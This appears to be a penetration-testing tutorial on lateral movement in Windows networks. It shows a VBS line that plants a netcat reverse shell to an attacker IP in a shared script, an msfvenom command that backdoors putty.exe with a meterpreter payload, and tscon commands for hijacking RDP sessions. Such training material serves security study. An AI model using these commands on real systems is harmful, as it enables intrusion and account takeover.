



Abusing User Behaviour
Under certain circumstances, an attacker can take advantage of actions performed by users to gain further access to machines in the network. While there are many ways this can happen, we will look at some of the most common ones.
A) Abusing Writable Shares
It is quite common to find network shares that legitimate users use to perform day-to-day tasks when checking corporate environments. If those shares are writable for some reason, an attacker can plant specific files to force users into executing any arbitrary payload and gain access to their machines.
One common scenario consists of finding a shortcut to a script or executable file hosted on a network share.

The rationale behind this is that the administrator can maintain an executable on a network share, and users can execute it without copying or installing the application to each user's machine. If we, as attackers, have write permissions over such scripts or executables, we can backdoor them to force users to execute any payload we want.
Although the script or executable is hosted on a server, when a user opens the shortcut on his workstation, the executable will be copied from the server to its %temp% folder and executed on the workstation. Therefore any payload will run in the context of the final user's workstation (and logged-in user account).
I) Backdooring .vbs script
As an example, if the shared resource is a VBS script, we can put a copy of nc64.exe on the same share and inject the following code in the shared script:
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True
This will copy nc64.exe from the share to the user's workstation %tmp% directory and send a reverse shell back to the attacker whenever a user opens the shared VBS script.
II) Backdooring .exe Files
If the shared file is a Windows binary, say putty.exe, you can download it from the share and use into it. The binary will still work as usual but execute an additional payload silently. To create a backdoored putty.exe, we can use the msfvenom to inject a backdoorfollowing command:
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe
The resulting puttyX.exe will execute a reverse_tcp meterpreter payload without the user noticing it. Once the file has been generated, we can replace the executable on the windows share and wait for any connections using the exploit/multi/handler module from Metasploit.
B) RDP hijacking
When an administrator uses Remote Desktop to connect to a machine and closes the RDP client instead of logging off, his session will remain open on the server indefinitely. If you have SYSTEM privileges on Windows Server 2016 and earlier, you can take over any existing RDP session without requiring a password.
If we have administrator-level access, we can get SYSTEM by any method of our preference. For now, we will be using psexec to do so. First, let's run a cmd.exe as administrator:

From there, run PsExec64.exe(available at C:\tools\): [To get System Access]
PsExec64.exe -s cmd.exe
To list the existing sessions on a server, you can use the following command:
query user

According to the command output above, if we were currently connected via RDP using the administrator user, our SESSIONNAME would be rdp-tcp#6. We can also see that a user named luke has left a session open with id 3. Any session with a “Disc” [Disconnected] state has been left open by the user and isn't being used at the moment. While you can take over active sessions as well, the legitimate user will be forced out of his session when you do, which could be noticed by them.
To connect to a session, we will use tscon.exe and specify the session ID we will be taking over, as well as our current SESSIONNAME. Following the previous example, to takeover luke's session if we were connected as the administrator user, we'd use the following command:
tscon 3 /dest:rdp-tcp#6
In simple terms, the command states that the graphical session 3 owned by luke, should be connected with the RDP session rdp-tcp#6, owned by the administrator user.
As a result, we'll resume luke's RDP session and connect to it immediately.
Note: Windows Server 2019 won't allow you to connect to another user's session without knowing its password.